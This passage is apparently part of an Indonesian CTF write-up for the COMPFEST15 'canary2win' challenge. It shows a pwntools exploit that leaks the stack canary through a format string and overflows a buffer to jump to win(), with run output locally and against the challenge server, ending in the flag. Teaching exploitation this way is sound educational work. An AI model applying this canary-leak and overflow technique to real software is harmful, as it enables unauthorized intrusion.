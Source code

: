 ```
   #payload win
   win_payload = pwn.p64(WIN_ADDRESS)
   print("Win Payload: ",win_payload)
   c.sendline(b'A'* 40 + payload_canary + b"A"*8 + win_payload )
   #lihat responsenya
   response = c.recvall()
   print(response)
```
Coba kita jalankan lagi:
```
[+] Starting local process './chall': pid 56171
XXX/canary2win.py:13: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(c.recvuntil("> "))
b'\ncanary2win e youkoso~ input wo joudai >//<\n> '
XXX/canary2win.py:15: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  c.sendline("%11$lx") #cek pake gdb
2cf968f958ade600
XXX/canary2win.py:24: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(c.recvuntil("> "))
b'canary2win e youkoso~ input wo joudai >//<\n> '
Payload Canary:  b'\x00\xe6\xadX\xf9h\xf9,'
Win Payload:  b'\x90\x12@\x00\x00\x00\x00\x00'
[+] Receiving all data: Done (87B)
[*] Process './chall' stopped with exit code -11 (SIGSEGV) (pid 56171)
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\nDiff spike gak gan, ngga lah ya xixixi :pray:\n'
```
Sip, teks di fungsi ```win()``` tercetak, artinya payload kita sudah benar. Sekarang saatnya kita kirimkan ke server.

**6. Get the Flag**

Untuk menembak ke server, comment/hapus baris ini:
```
with pwn.process("./chall") as c:
```
Lalu uncomment/tambahkan baris ini:
```
with pwn.remote("34.101.174.85",10002) as c:
```
Berikut hasil eksekusinya:
```
[+] Opening connection to 34.101.174.85 on port 10002: Done
XXX/canary2win.py:13: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(c.recvuntil("> "))
b'\ncanary2win e youkoso~ input wo joudai >//<\n> '
XXX/canary2win.py:15: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  c.sendline("%11$lx") #cek pake gdb
e681fda67cdfd900
XXX/canary2win.py:24: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(c.recvuntil("> "))
b'canary2win e youkoso~ input wo joudai >//<\n> '
Payload Canary:  b'\x00\xd9\xdf|\xa6\xfd\x81\xe6'
Win Payload:  b'\x90\x12@\x00\x00\x00\x00\x00'
[+] Receiving all data: Done (146B)
[*] Closed connection to 34.101.174.85 port 10002
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\nDiff spike gak gan, ngga lah ya xixixi :pray:\nCOMPFEST15{fmtstr_to_leak_canary_bof_to_win__s4tsetsats3t}\n'
```
Alhamdulillah dapat flagny:
```
```